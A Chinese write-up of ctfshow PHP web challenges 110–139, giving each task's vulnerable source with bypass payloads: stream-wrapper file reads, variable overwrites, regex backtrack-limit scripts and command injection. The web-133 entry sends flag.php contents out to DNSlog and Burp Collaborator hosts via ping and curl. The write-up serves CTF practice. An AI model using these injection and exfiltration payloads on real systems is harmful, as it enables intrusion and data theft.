将一个对象作为字符串使用时（`echo <一个对象>`），php会自动调用该对象的 `__toString()`方法来获取[字符串表示](https://so.csdn.net/so/search?q=字符串表示&spm=1001.2101.3001.7020)。注意，`__toString()`方法在对象被隐式转换为字符串时（`echo <一个对象>`）才会触发，如果直接调用该方法，不会有任何效果。

```
<?php
class MyClass{
	private $name;
	
	public function __construct($name){
		$this->name = $name
	}
	
	public function __toString(){
		return "Object name:".$this->name
	}
}

$obj = new Myclass("My Object");

echo $obj; // 输出对象的字符串表示，自动调用__toString()方法
?>

输出
Object name:My Object
```

**php中，自带 `__toString()`方法的内置类有：`DataTime`、`Exception`、`SimpleXMLElement`。**

---

## web-110（__toString()方法、**FilesystemIterator**类利用）

源码：

```
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>
```

解题思路：

**利用FilesystmIterator文件系统迭代器**

因为过滤的原因，原来的payload用不了了。这里使用`FilesystemIterator`遍历文件系统中的文件和目录，`getcwd()`获取当前目录（不需要传参，也就用不到单双引号）。**本质就是获取当前目录下的文件。**

payload：

```
?v1=Filesystemiterator&v2=getcwd

然后访问fl36dga.txt

```

---

## web-111（超全局变量$GLOBALS）

源码：

```
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}


if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }

}

?>
```

解题思路：

**$GLOBALS 超全局变量利用**

**$GLOBALS — 引用全局作用域中可用的全部变量**
**一个包含了全部变量的全局组合数组。变量的名字就是数组的键。**

**首先这里v1的值必须是ctfshow才能通过正则，然后eval("$$v1 = &$$v2;");进行了赋值操作，将v2的值赋给了v1，我们将v2赋值为GLOBALS，那么v2就会赋值给v1，然后var_dump($$v1)会将$GLOBASL全局变量中的数据全部输出**

payload：

```
?v1=ctfshow&v2=GLOBALS
```

---

### 超全局变量

[php超级全局变量详解](https://www.runoob.com/php/php-superglobals.html)

---

## web-112（is_file()、php伪协议(filter)）

源码：

```
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

解题思路：

**这里我们需要绕过is_file()函数，我们要传一个文件名但是不能被识别为文件。`is_file()`检查指定路径是否为一个普通文件。这里我们可以使用php伪协议进行绕过，is_file认为伪协议不是一个文件，`而highlight_file`认为伪协议是文件。所以可以实现绕过。**
**最后highlight_file就会将指定文件的源代码以HTML格式进行高亮显示并输出到浏览器即可拿到flag**

payload：

```
?file=php://filter/resource=flag.php
```

---

### php伪协议（filter）

php://filter是php中的伪协议主要用于在输入和输出流上应用过滤器。基本语法是：php://filter/<filter>/resource，其中<filter>是要应用的过滤器名称，resource是要过滤的资源。

    过滤读取的数据
    //先读取flag.php的内容，再进行base64编码，也就是说以后呈现的内容是经过base64编码后的内容。
    file_get_contents('php://filter/write=convert.base64-encode/resource=flag.php'） 
    
    过滤写入的数据
    // 先将字符串hello world进行base64编码，再写入flag.php文件中，写的时候是先进行base64解码，再写。也就是说在写的时候，先执行php://filter/write=convert.base64-decode对字符串进行解码。
    $data='hello world';
    file_put_contents('php://filter/write=convert.base64-decode/resource=flag.php'，base64($data))

---

## web-113（is_file、php伪协议(zlib)）

源码：

```
highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

解题思路：

**filter伪协议被过滤了，这里可以使用`zlib://`伪协议，**

使用zlib://伪协议将数据压缩并写入文件compress_data.txt.gz中；使用zlib://伪协议从压缩的文件中读取解压缩的数据。
**compress.zlib://flag.php读取 gz 压缩或普通输入文件。**

```
zlib://伪协议
//压缩数据
$data = 'Hello,World!';
file_put_content('zlib://compressed_data.txt.gz',$data)

// 解压缩数据
$decompressedData = file_get_contents('zlib://compressed_data.txt.gz')
```

payload：

```
?file=compress.zlib://flag.php
```

---

## web-114（is_file、php伪协议(filter)）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
}
```

解题思路：

这里没有过滤`filter`，所以直接构造payload

payload：

```
?file=php://filter/resource=flag.php
```

---

## web-115（is_numeric()、trim()）

源码：

```
include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
}
```

解题思路：

triim()：去除字符串首尾的空格或其他指定字符。使用%0c（换页符）进行绕过

is_numeric：判断变了是否为数字或数字字符串。绕过方法：%0c（换页符），%20空格符、%0a换行符

`！==`：强不等于，必须值相等，且类型相等。

这里要求if判断内全为true，且$num=='36'也为true

payload：

```
?num=%0c36
```

---

### trim()

```swift
语法
trim(string,charlist)

参数	描述
string	        必需。规定要检查的字符串。
charlist	    可选。规定从字符串中删除哪些字符。如果省略该参数，则移除下列所有字符：
                "\0"       - NULL
                "\t"       - 制表符
                "\n"       - 换行
                "\x0B"     - 垂直制表符
                "\r"       - 回车
                " "        - 空格
```

---

## web-123（GET/POST传递变量特性（`[`））

源码：

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

解题思路：

- 在php中变量名字是由数字字母和下划线组成的，所以不论用post还是get传入变量名的时候都将空格、[，+、点转换为下划线，而传入[之后后面的空格、[，+、点就不会被转为下划线了
- 题目里的$c<=18，左边是字符串，右边是数字，`<=`恒成立；如果左右两边都是字符串，会先比较第一个字母的ASCII码值，如果相同，再比较长度，然后逐一比较

payload：

```
两种方法：利用eval("$c".";"); 或echo $flag; 

利用eval函数输出flag
post：CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag


前置知识：
$_SERVER 是一个包含了诸如头信息(header)、路径(path)、以及脚本位置(script locations)等等信息的数组。
'argv'
    传递给该脚本的参数的数组。当脚本以命令行方式运行时，argv 变量传递给程序 C 语言样式的命令行参数。当通过 GET 方式调用时，该变量包含query string。 
即$_SERVER[‘argv’][0] = $_SERVER[‘QUERY_STRING’]=（get传参？后面的值）
例如：
?$fl0g=flag_give_me;   //get
$_SERVER[‘argv’][0]=$_SERVER[‘QUERY_STRING’]="$fl0g=flag_give_me;"


利用下面的echo $flag来输出flag
当GET方式传入 赋值的语句$fl0g=flag_give_me;时
$a[0]=$_SERVER[‘argv’][0]="$fl0g=flag_give_me;"


?$fl0g=flag_give_me;                           #GET  
CTF_SHOW=&CTF[SHOW.COM=&fun=eval($a[0])      #POST  

这里就相当于eval(eval($fl0g=flag_give_me;))
```

---

### GET/POST传递变量特性（[）

在php中变量名字是由数字字母和下划线组成的，所以不论用post还是get传入变量名的时候都将空格、[，+、点转换为下划线，而传入[之后后面的空格、[，+、点就不会被转为下划线了

---

### $_SERVER

**$_SERVER['argv']：传递给脚本的参数数组。**

**命令行情况下，$_SERVER['argv'][0]第一个元素是脚本的文件名（test.php），之后的元素是传递给脚本的参数（test1、test2）
在这里插入图片描述
web网页模式下，$arg只接受GET传参，且必须在php.ini开启register_argc_argv配置项。$_SERVER[‘argv’][0] = $_SERVER[‘QUERY_STRING’] = GET传参的值（?后面的），关于$_SERVER[‘QUERY_STRING’]**

---

## web-124（highlight_file、[、get传参、arg）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```

解题思路：

这里正则过滤掉了上题我们使用的echo，但是还可以使用`highlight_file`+get传参的形式来输出文件内容。然后依旧用`[`来绕过，会自动转换为下划线，然后后面的点就不会被转换

payload：

```
?1=flag.php
post：CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1])

上题使用$_SERVER['argv']构造的payload依然能用，因为没有过滤eval

?$fl0g=flag_give_me;                        
POST：CTF_SHOW=&CTF[SHOW.COM=&fun=eval($a[0])       
```

---

## web-126（assert、arg）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print|g|i|f|c|o|d/i", $c) && strlen($c)<=16){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
```

解题思路：

**这里有多过滤了几个字母，所以用highlight_file输出的方法不能用了，但是还是可以使用上题另一种payload**
**，这里还可以使用assert()来对$fl0g进行赋值。assert()相当于eval()，他能将字符串当做php代码来执行，且assert不需要严格遵从语法，比如末尾的分号可以不加。**

payload：

```
使用assert()和$_SERVER

?$fl0g=flag_give_me 	//这里可以不用分号
POST：CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])	

使用上题的payload
?$fl0g=flag_give_me;                        
POST：CTF_SHOW=&CTF[SHOW.COM=&fun=eval($a[0])      
```

---

### assert()

**相当于eval()，也是危险函数，他能将其中的字符串当做php代码来执行，且assert不需要严格遵从语法，比如末尾的分号可以不加。**

---

## web-127（extract()、$_SERVER['QUERY_STRING']）

源码：

```
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];


//特殊字符检测
function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}


if($ctf_show==='ilove36d'){
    echo $flag;
}
```

解题思路：

**`这里我们要让$ctf_show这个变量全等于'ilove36d'才能输出flag，所以我们可以利用extract()函数，该函数可以用于将数组中的键值对转换为变量和其对应的值，我们传入?ctf_show=ilove36d，就会使$ctf_show=ilove36d。**

**然后这里不能直接使用`_`下划线，被正则过滤了，所以要使用绕过，因为[、.点、+都被过滤了只能用空格绕过了**
**`$_SERVER['QUERY_STRING']`获取的是GET传参数据（`?`后面的键值），此时`%20(空格)`没有被转化为`_`；只有`$_GET`获取变量的时候，因为变量名不符合规范，`%20(空格)`才会被转换为`_`。**

payload：

```
?ctf%20show=ilove36d
```

---

### extract()

PHP extract()函数从[数组](https://baike.baidu.com/item/数组/0?fromModule=lemma_inlink)中把[变量](https://baike.baidu.com/item/变量/0?fromModule=lemma_inlink)导入到当前的[符号表](https://baike.baidu.com/item/符号表/0?fromModule=lemma_inlink)中。 

对于数组中的每个元素，键名用于变量名，键值用于[变量值](https://baike.baidu.com/item/变量值/8414141?fromModule=lemma_inlink)。

第二个参数 type 用于指定当某个变量已经存在，而数组中又有同名元素时，extract()函数如何对待这样的冲突。

本函数返回成功设置的变量数目。

```
语法：
extract(array,extract_rules,prefix)

例子
$my_array = array("a" => "Cat","b" => "Dog", "c" => "Horse");
extract($my_array);
echo "\$a = $a; \$b = $b; \$c = $c";?>
输出：
$a = Cat; $b = Dog; $c = Horse
```

---

### $_SERVER['QUERY_STRING']

https://blog.csdn.net/qq_49480008/article/details/115872899

`$_SERVER['QUERY_STRING']`获取的是GET传参数据（`?`后面的键值）

```
例如：
?ctf_show=123

$a = $_SERVER['QUERY_STRING'];
echo $a;

输出
'ctf_show=123'
```

---

## web-128（gettext()、get_defined_vars()）

源码：

```
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}


function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```

解题思路：

**_() 函数即 gettext() 函数，可以将参数翻译成指定语言，一般就是原封不动的输出参数**

**get_defined_vars 函数可以输出所有变量的信息，两者结合拿到 flag**

**首先在第一个call_user_func回调函数内，_()即被回调的参数，然后get_defined_vars为参数，_()会将get_defined_vars输出，接着又是一个call_user_func回调函数执行get_define_vars然后外面的var_dump会将其结果输出，这样就能拿到flag了**

payload：

```
?f1=_&f2=get_defined_vars
```

---

### gettext

**_() 函数即 gettext() 函数，可以将参数翻译成指定语言，一般就是原封不动的输出参数**

**string gettext( string $message) 返回输入的字符**
**_()==gettext() 是gettext()的拓展函数，开启text扩展，_是gettext的别名。需要php扩展目录下有php_gettext.dll**

**echo gettext("Welcome to My PHP Application");**

---

### get_defined_vars()

**get_defined_vars — 返回由所有已定义变量所组成的数组**

---

## web-129（stripos()、php伪协议(嵌套无效协议)、目录穿越）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
}
```

解题思路：

这里有一个stripos函数，会匹配我们GET方法传入的值，如果其中存在'ctfshow'字符串，就会echo readfile($f)，所以我们的payload中必须含有ctfshow，且不能影响读取。这里有两种做法，一种是php伪协议嵌套无效协议，第二种就是目录穿越，相当于进入ctfshow文件夹又跳出，然后访问flag.php

payload：

```
php伪协议在遇到无效协议时，会自动忽略。
?f=php://filter/ctfshow/resource=flag.php

目录穿越
?f=./ctfshow/../flag.php
```

注意：两种方法都需要查看源代码才能看到flag

---

### stripos()

stripos

注意：如果参数为数组，直接输出null

```
stripos 
(PHP 5, PHP 7)
stripos — 查找字符串首次出现的位置（不区分大小写）
说明 
mixed stripos( string $haystack, string $needle[, int $offset = 0] )
返回在字符串 haystack 中 needle 首次出现的数字位置。 
与 strpos() 不同，stripos() 不区分大小写。 


参数 
haystack
在该字符串中查找。 
needle
注意 needle 可以是一个单字符或者多字符的字符串。 
如果 needle 不是一个字符串，那么它将被转换为整型并被视为字符顺序值。 
offset
可选的 offset 参数，从字符此数量的开始位置进行搜索。如果是负数，就从字符末尾此数量的字符数开始统计。 

返回值 
返回 needle 存在于 haystack 字符串开始的位置(独立于偏移量)。同时注意字符串位置起始于 0，而不是 1。 
如果未发现 needle 将返回 FALSE。 
```

---

### readfile()

readfile

```
readfile(string $filename, bool $use_include_path = false, resource $context = ?): int
 读取文件并写入到输出缓冲。 
 
参数
filename
    要读取的文件名。
use_include_path
    想要在 include_path 中搜索文件，可使用这个可选的第二个参数，设为 true。
context
    Stream 上下文（context） resource。
返回值
成功时返回从文件中读入的字节数， 或者在失败时返回 false
```

---

### php伪协议嵌套无效协议

php伪协议在遇到无效协议时，会自动忽略。

当我们的伪协议中需要包含一些内容，但又不影响我们的读取，就可以使用这种方法

例如：

```
?f=php://filter/read=convert.base64-encode|ctfshow/resource=flag.php
?f=php://filter/|ctfshow/resource=flag.php
```

---

### 目录穿越

[目录穿越详解](https://www.cnblogs.com/milantgh/p/3756726.html)

---

## web-130（数组绕过preg_match/stripos、正则匹配）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

解题思路：

我们用post传入的f，我们要构造payload，让其能绕过preg_match正则匹配和stripos匹配。

payload：

```
**+?表示 重复1次或更多次，但尽可能少重复意思是ctfshow前面必须至少有一个字符，才会匹配到，并且下面的stripos函数要求必须匹配到ctfshow，所以直接传ctfshow即可**

post：f=ctfshow

也可以使用数组绕过preg_match和stripos
因为preg_match无法处理数组会直接返回false，并且stripos()是匹配子串，遇到数组，直接输出null。注意，两个等于（null==false）成立；三个等于（null===false）不成立。

post：f[]=
```

---

## web-131（PCRE回溯次数绕过preg_match）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = (String)$_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f,'36Dctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

}
```

解题思路：

**这里将我们传的f的值进行了强制类型转换，转成了字符串类型，导致无法绕过stripos，这里只能用PCRE回溯次数绕过。**

python脚本：

```
import requests

url='http://ced5ea6a-1d3b-4f66-a3ff-61a42deeaec4.challenge.ctf.show:8080/'
data={
    'f':'show'*250002+'36Dctfshow'
}
r=requests.post(url=url,data=data)
print(r.text)
```

---

### PCRE回溯次数绕过

1.正则最大回溯次数绕过
 PHP 为了防止正则表达式的拒绝服务攻击（reDOS），给 pcre 设定了一个回溯次数上限 pcre.backtrack_limit
 回溯次数上限默认是 100 万。如果回溯次数超过了 100 万，preg_match 将不再返回非 1 和 0，而是 false。这样我们就可以绕过第一个正则表达式了。

python脚本

```python
import requests
url=""
data={'f':'very'*250000+'ctfshow' } r=requests.post(url,data=data)
print(r.text)
```

---

## web-132（逻辑运算符优先级）

这题要先访问robots.txt，然后访问admin才能看到源码

源码：

```
#error_reporting(0);
include("flag.php");
highlight_file(__FILE__);


if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){
        
        if($code == 'admin'){
            echo $flag;
        }
        
    }
}
```

解题思路：
`if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin")`

**当&&和||同时存在时，会从左往右进行运算，**

**x || y 或   如果 x 和 y 至少有一个为 true，则返回 true** 

**所以只要保证$username==='admin'为true即可，**

**mt_rand — 生成更好的随机数**

payload：

```
?username=admin&password=&code=admin
```

---

## web-133（curl、无回显的shell_exec**命令执行**、DNSlog外带）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
}
```

解题思路：
**源码过滤了很多命令执行的函数，但是这里还可以使用 无回显的shell_exec命令执行**

**然后还使用了substr截取我们传入的命令索引值为0-5的字符**

```
get传参	F=`$F `;sleep 3
经过substr($F,0,6)截取后 得到 `F `;
我们把原来的$F带进去
eval("``$F `;sleep 3`");
所以也就是说最终会执行`   `$F `;sleep 3  ` == shell_exec("`$F `;sleep 3");
前面的命令不需要管，后面的命令就随我们自由控制了
所以服务器上就成功执行了sleep 3
```

payload：

**[dnslog外带平台](ceye.io)**

**用dnslog获得子域**

```
?F=`$F `;ping `cat flag.php | grep ctfshow | tr -cd "[a-z]"/"[0-9]"`.krmij5.dnslog.cn -c 1

	// -c: 设置完成要求回应的次数
	// grep ctfshow: 打印匹配ctfhsow的行
	// tr -cd "[a-z]"：只保留a-z
```

方法二：

```powershell
curl -F
>>-F参数用来向服务器上传二进制文件

$ curl -F 'file=@photo.png' https://google.com/profile

上面命令会给 HTTP 请求加上标头Content-Type: multipart/form-data，然后将文件photo.png作为file字段上传。

>>-F参数可以指定 MIME 类型。
$ curl -F 'file=@photo.png;type=image/png' https://google.com/profile

上面命令指定 MIME 类型为image/png，否则 curl 会把 MIME 类型设为application/octet-stream。

>>-F参数也可以指定文件名。
$ curl -F 'file=@photo.png;filename=me.png' https://google.com/profile

上面命令中，原始文件名为photo.png，但是服务器接收到的文件名为me.png。

curl -X
-X参数指定 HTTP 请求的方法。
$ curl -X POST https://www.example.com

上面命令对https://www.example.com发出 POST 请求。
```

```
可以用curl -F 将flag文件上传到Burp的 Collaborator Client （ Collaborator Client 类似DNSLOG，其功能要比DNSLOG强大，主要体现在可以查看 POST请求包以及打Cookies）
```

```
#其中-F 为带文件的形式发送post请求
#xx是上传文件的name值，flag.php就是上传的文件 

payload：
?F=`$F`;+curl -X POST -F xx=@flag.php http://（域名地址）
```

**使用bp工具中的collaborator：**



先复制一个域名地址，然后get传入payload，传入之后轮询即可

payload：

```
?F=`$F`;+curl -X POST -F xx=@flag.php http://go87ficuwhpxdp8tzmkz9dsovf16p8dx.oastify.com
```

---

## web-134（$_SERVER['QUERY_STRING']、parse_str、extract）

源码：

```
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;
if(isset($_GET['key1']) || isset($_GET['key2']) || isset($_POST['key1']) || isset($_POST['key2'])) {
    die("nonononono");
}
@parse_str($_SERVER['QUERY_STRING']);		//把get传入的变量解析成多个变量
extract($_POST);							//把$_POST数组导入到当前符号表
if($key1 == '36d' && $key2 == '36d') {
    die(file_get_contents('flag.php'));
}
```

解题思路：

**`$_SERVER['QUERY_STRING']`是获取get的参数以及值。**

**`parse_str`：将字符串解析到变量中。**

**`extract()`：从数组中将变量导入到当前的符号表(简单来说就是，将数组里的键给搞成变量，将数组的值给对应的键)。**

我们构造payload：

```
?_POST[key1]=36d&_POST[key2]=36d
//因为php文件不会直接显现出来，所以需要查看源代码
```

首先`$_SERVER['QUERY_STRING']`获取到get的参数和值，然后`parse_str`将`_POST[key1]=36d&_POST[key2]=36d`转化为`$_POST`（数组），`extract`将`$_POST[key1]=36d、$_POST[key2]=36d`转化为`$key1=36d、$key2=36d`

---

## web-135（nl（linux））

源码：

```
error_reporting(0);
highlight_file(__FILE__);
//flag.php
if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|bash|sh|netcat|curl|cat|grep|tac|more|od|sort|tail|less|base64|rev|cut|od|strings|tailf|head/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("师傅们居然破解了前面的，那就来一个加强版吧");
    }
}
```

解题思路：

**这题和133很像，但是把curl和很多命令都过滤掉了，但是还有一个nl可以用，绕过方法还是133题的方法。**

**ping没被过滤，dnslog外带应该也可以，但是我这里失败了**

```;
?F=`$F`+;nl flag.php > a	//查看flag.php文件，再重定向到a文件中，访问url/a即可下载文件后查看
加文件后缀也可以
?F=`$F`+;nl flag.php > a.txt	//然后访问url/a.txt即可

cp好像也可以
F=`$F `;cp flag.php 1.txt	//然后访问url/1.txt即可

另一种绕过payload
?F=`$F `;nl flag.php > a
```

---

## web-136（tee、nl、exec()）

源码：

```
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

解题思路：

**题目过滤了很多命令，很明显，需要我们get传c的值，然后使用exec函数去命令执行，可以使用tee和nl来获取flag**

**tee可以用来实现将标准输入写入文件的功能，因为这里重定向符被过滤了所以只能用tee了**

payload：

```
首先使用ls、管道输出符加tee实现扫描当前目录并写入到文件1中的目的，注意不能用文件后缀，因为点被过滤了
?c=ls / | tee 1

然后url/1即可下载文件，然后打开发现一个f149_15_h3r3文件，猜测是flag，然后使用nl或者cat来读取flag并写入到文件2中
?c=nl /f149_15_h3r3 | tee 2
?c=cat /f149_15_h3r3 | tee 2
```

---

### exec()

**`exec(string $command, array &$output = ?, int &$return_var = ?): string`**

```php
exec() 执行 command 参数所指定的命令。
例：
<?php
// 输出运行中的 php/httpd 进程的创建者用户名
// （在可以执行 "whoami" 命令的系统上）
echo exec('whoami');
?>
```

---

### tee（linux）

tee命令是Linux中常用的命令。这是一个简单但功能强大的命令，用于读取标准输入，然后将其写入文件以及标准输出。

下是 tee 命令的一些最常用选项 -

```dos
-a, --append
```

此选项将标准输入附加到指定文件的末尾而不是覆盖它们。

```sql
-i, --ignore-interrupts
```

该选项忽略中断信号（如Ctrl+C）并继续运行。

```sql
-p, --output-error
```

此选项可防止 tee 命令因写入错误而退出。

```dos
--help
```

此选项显示 tee 命令的帮助消息。

```sql
--version
```

此选项显示 tee 命令的版本号。

**常用功能：**

**将标准输入写入文件：**

```
$ echo "Hello,world!" | tee hello.txt

这里是将语句写入到文件中
```

**将标准输入附加到文件：**

```
$ echo "Hello,world again!" | tee -a hello.txt

将语句追加到文件中
```

---

## web-137（call_user_func调用类的静态方法）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}


call_user_func($_POST['ctfshow']);
```

解题思路：

**这题一看就知道要使用call_user_func回调函数来拿到flag，然后分析一下发现只要我们调用ctfshow类中的静态方法getFlag即可输出flag.php**

```
post：ctfshow=ctfshow::getFlag
然后查看源码即可得到flag
```

### 类的静态方法的调用

**语法：类+::+方法名**

```
->与::调用函数的区别：
-> 调用实例方法
:: 调用静态方法
在类里面的时候，$this->func()和self::func()没什么区别。
在外部的时候，->必须是实例化后的对象使用；而::可以是未实例化的类名直接调用。
```

---

## web-138（call_user_func数组调用静态方法）

源码：

```
error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);
```

解题思路：

strripos — 计算指定字符串在目标字符串中最后一次出现的位置（不区分大小写）

if(strripos($_POST['ctfshow'], ":")>-1)这里要求:在post传入的ctfshow里的位置不能大于-1，所以这里可以理解为不能有:的存在。

**绕过关键：call_user_func是支持传入数组的，可以用数组调用静态方法**

payload：

```
call_user_func调用类的静态方法 数组传入调用

post：ctfshow[0]=ctfshow&ctfshow[1]=getFlag
然后查看源码即可得到flag
```

---

### strripos()

**strripos — 计算指定字符串在目标字符串中最后一次出现的位置（不区分大小写）**

```php
strripos(string $haystack, string $needle, int $offset = 0): int
以不区分大小写的方式查找指定字符串在目标字符串中最后一次出现的位置。与 strrpos() 不同，strripos() 不区分大小写。 

haystack
    在此字符串中进行查找。
needle
    注意 needle 可以是一个单字符或者多字符的字符串。
offset
    参数 offset 可以被指定来查找字符串中任意长度的子字符串。
    负数偏移量将使得查找从字符串的起始位置开始，到 offset 位置为止。
   
返回 needle 相对于 haystack 字符串的位置(和搜索的方向和偏移量无关)。同时注意字符串的起始位置为0而非1。
如果 needle 未被发现，返回 false。 
```

---

## web-139

源码：

```
<?php
error_reporting(0);
function check($x){
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```

解题思路：

本来准备用tee的，结果写入到1后访问url/1没有反应，看了下题解说这题要用命令盲注

python题解脚本：

```
import requests
import time
import string
str=string.ascii_letters+string.digits
result=""
